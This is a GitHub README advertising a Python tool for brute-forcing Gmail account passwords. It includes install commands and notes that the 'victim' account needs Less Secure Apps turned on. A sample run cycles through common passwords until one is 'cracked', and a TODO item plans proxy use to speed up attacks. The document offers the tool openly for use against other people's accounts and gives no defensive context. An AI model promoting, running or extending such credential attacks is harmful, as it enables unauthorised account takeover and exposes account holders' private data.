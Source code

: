 
Powerful, Robust and Efficient tool for bruteforcing Gmail accounts written in `python3`.

### Installation

**Pre requisties:** 
- [git](https://git-scm.com/downloads)
- [python3](https://www.python.org/downloads/)

1. For windows

```bash
git clone https://github.com/Sarthak2143/GmailBruteforce
cd GmailBruteforce/
python3 main.py
```
1. For Mac/Linux

```bash
git clone https://github.com/Sarthak2143/GmailBruteforce
cd GmailBruteforce/
chmod +x main.py
./main.py
```
## NOTE

In order to bruteforce any gmail account with this tool the victim account must have **Less Secure Apps** turned on.

For more details see [Why you need to turn ON less secure apps?](https://support.google.com/accounts/answer/6010255?hl=en)

Read this [article by devanswers](https://devanswers.co/allow-less-secure-apps-access-gmail-account/) to turn ON **Less secure apps.**

## Usage

**Pre requisties:**  

- Victim's Gmail account.
- Wordlist for bruteforcing.

This tool comes with a wordlist pre-installed.

```bash
┌──(kali㉿kali)-[~/GmailBruteforce]
└─$ python3 main.py

[?] Enter email adress: test@gmail.com
[?] Enter wordlist path: wordlist.txt
Starting bruteforcing...

[!] Incorrect password: 123456
[!] Incorrect password: 12345
[!] Incorrect password: 123456789
[!] Incorrect password: password                        
[!] Incorrect password: iloveyou
[!] Incorrect password: princess
[!] Incorrect password: 1234567                         
[!] Incorrect password: 12345678                        
[!] Incorrect password: abc123
[!] Incorrect password: nicole                          
[!] Incorrect password: daniel                         
[!] Incorrect password: babygirl                       
[!] Incorrect password: monkey
[!] Incorrect password: lovely
[!] Incorrect password: jessica
[!] Incorrect password: michael
[!] Incorrect password: ashley
[!] Incorrect password: qwerty
[!] Incorrect password: 111111
[!] Incorrect password: iloveu
[!] Incorrect password: 000000
[!] Incorrect password: michelle
[!] Incorrect password: tigger
[!] Incorrect password: sunshine
[+] Correct password: chocolate
[+] Password cracked!

[*] Script finished!
[*] Time Elapsed: 18 seconds.
```

You've to specify the Gmail address and path to wordlist in the input section.

## TODO

- Use proxies for better efficiency.
- Commamd line version with flags.

## Support

Having trouble with Tool? [Report an Issue](https://github.com/Sarthak2143/GmailBruteforce/issues).
